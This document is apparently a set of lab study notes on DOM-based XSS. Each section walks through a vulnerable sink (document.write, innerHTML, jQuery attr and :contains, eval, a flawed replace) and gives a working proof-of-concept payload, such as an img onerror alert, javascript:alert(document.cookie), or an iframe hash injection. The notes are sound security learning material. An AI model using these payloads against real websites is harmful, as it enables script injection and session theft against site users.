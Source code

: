 # Function that uses "document.write()" and concatenation of the input string

### Scenario

```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```
With the document.write function it writes the "img" tag with the specified "src" parameter. In it there is a concatenation with the parameter that the user give to the page.

The parameter is taken from window.location.search and the parameter name is "search". If the is not empty then the JS function "trackSearch" is called.

N.B.: the window.location.search take anything which comes after the question mark in the URL.

In the DOM the passed element is displayed in the "img" tag created by the JS function:
```html
<img src="/resources/images/tracker.gif?searchTerms=test">
```

### Exploitation

We can pass this string as input:

```
test" onload=alert()
```

Here, what happens is the following:
- The img tag is created as shown before;
- Now, due to the presence of " we are able to break the string automatically created by the JS function;
- The image is actually loaded, but given the presence of the onload action we inserted, the action specified in it will be perfomed after the image loading;
- We inserted the alert() function in the onload action, so we expect to see an alert box on the web page;
- We cannot close the " because there is that already inserted by the JS function.

The HTML resulting from this input is the following:
```html
<img src="/resources/images/tracker.gif?searchTerms=test" onload=alert()">
```

# INNER.html sink using source "location.search"

### Scenario

```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

This JS code snippet takes the input string with "window.location.search" and takes the parameter called "search".

This string is passed to the JS function and used with the innerHTML.

DOM in which the input is diplayed:

```html
<span id="searchMessage">uniquetest</span>
```

In innerHTML if we pass a <script> tag it won't be executed. This is a security feature. So we need to pass something else.

### Exploit
We can use:
```
<img src='0' onerror=alert()>
```
The src provided will cause an error and onerror we load the alert() function.
As we seen before the "script" tag is not executed but not the "img" tag.

The DOM modified is the following:
```html
<span id="searchMessage">
    <img src="0" onerror="alert()">
</span>
```

# DOM XSS in JQuery anchor href attribute sink using location.search source

### Scenario
JQuery is a JS framework with a little bit different syntax from vanilla JS.

```html
<a id="backLink" href="/">Back</a>
```

This back link on the page, redirect the users to the previous page.

The href is populated by a JQuery script.

```javascript
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

- $('#backLink') this select the element with the id="backLink";
- attr("href") go inside the attribute href in the selected ID;
- Assign to this attribute the value retrieved from the URL parameter called "returnPath".

### Exploit
If we have an anchor tag (<a>) and inside the href parameter of it we have "javascript:SOMEJS", SOMEJS will be executed directly.


We can assign to the returnPath URL parameter something like this:
```
javascript:alert(document.cookie)
```

Resulting DOM:
```html
<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
```

When we will click on the link on the web page, the JS will be executed. We will get an alert with the cookie shown inside.

# JQuery selector sink using hashchange

### Scenario

In the page source, we can see the following JS script:
```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

What's an **hashchange event**?
You can put an hashtag (#) at the end of the url followed by a number or a word.
It's often used as bookmarking functionality.

The JS function showed creates a variable called "post".
It assign to the variable the content of the h2 tag which contains the value of the hashchange we pass to the URL parameter contained inside the section "blog-list".

Clearly, the "contains" method search for a value that we can manipulate.

N.B.: **In some version of JQuery the function "contains" may behave as unexpectedly**. So, if we try to give to it the argument ```<h1> somethingUNIQUE </h1>``` and print the variabile "post" we may notice that post variable contains our h1 tag.
**In other words, the contains method created the object passed as argument to it.**
This DOM element isn't inserted in the page, but it's a **detached DOM element**.

We can give it a parent node, so, in other words, we can attach in to the DOM of the web page:

```javascript
var mynode = document.getElementById("something");
mynode.appendChild(post)
```

### Exploit

We can exploit the vulnerability above, by using a tag like "<img>" and forcing it to the error and hen using a onerror functionality.

```javascript
let myimg = document.createElement('img')
myimg.src = 0 //nosense value of the src
```

We can pass it as payload:

```html
<img src=0 onerror='alert()'>
```

In this case we can avoid to attach this img tag to the web page DOM because we can notice from the network connection panel of our browser that it calls immediatly the "src" location although this "img" tag isn't attached to the DOM of the web page.

In some case, we can deliver a simiilar payload using **"iframe"**:
```html
<iframe src="https://theVulnerablePageURL/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

This code load the vulnerable page inside a box (the iframe) and then append to the URL in the src field the hashchange value which exploits the vulnerability.

# DOM XSS in document.write sink using source location.search inside a select element

### Scenario

We have a **shop page** with different products. If we scroll down, after entering one product page, we notice that there is a dropdown box with different location which represents different stocks.

```html
<select name="storeId">
    <option>London</option>
    <option>Paris</option>
    <option>Milan</option>
</select>
```
Above that select element there is a JS script:

```javascript
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

In this code, an array is created and assign to a variable. The array has three elements.
Another variable take the value contained inside the URL parameter "storeId".
If a value is passed and the value passed is not already in the array, the JS created it and append it to the array.

### Exploit
We can add a URL parameter like this:
```
URL/productId="1"&storeId=test</select>
```

The select will break the DOM.

Complete exploit:
```
URL/productId="1"&storeId=test</select><img src="1" onerror="alert()">
```

The resulting DOM after the exploit is:
```html
<select name="storeId">
    <option selected="">test</option>
</select>
<img src="1" onerror="alert()">
<option>London</option>
<option>Paris</option>
<option>Milan</option>
```

# Reflected DOM XSS, function "eval()" JS


### Scenario
We had a JS function with an "eval()" funciton usage inside. From the JS documentation:

```The eval() function evaluates JavaScript code represented as a string and returns its completion value. The source is parsed as a script. Warning: Executing JavaScript from a string is an enormous security risk. It is far too easy for a bad actor to run arbitrary code when you use eval().```

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
```

We can send our term in the URL parameter "search".
Because it uses an AJAX GET request, we can intercept it with Burp suite.

### Exploit
We can break the eval content with something like ```test"-alert()```. We notice that an escaping of the " character is done automatically. So we can "escape the escape character" with something like this: ``` \"-alert(1)}// ```.

As you have injected a backslash and the site isn't escaping them, when the JSON response attempts to escape the opening double-quotes character, it adds a second backslash. The resulting double-backslash causes the escaping to be effectively canceled out. This means that the double-quotes are processed unescaped, which closes the string that should contain the search term.
An arithmetic operator (in this case the subtraction operator) is then used to separate the expressions before the alert() function is called. Finally, a closing curly bracket and two forward slashes close the JSON object early and comment out what would have been the rest of the object.


# Both stored and DOM based XSS, incorrect use of replace() function in JS

### Scenario
We have a blog, which different articles. Each of one, allow you to comment. Analyzing page, you can found that a JS function is used to replace "<" and ">" with the related HTML encoding.

```javascript
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

If we check the documentation of the replace() function we can see that:
The replace() method of String values returns a new string with one, some, or all matches of a pattern replaced by a replacement. The pattern can be a string or a RegExp, and the replacement can be a string or a function called for each match. **If pattern is a string, only the first occurrence will be replaced**. The original string is left unchanged.

### Exploit
We can give a payload like: ```<h1><img src=0 onerror=alert()></img>```
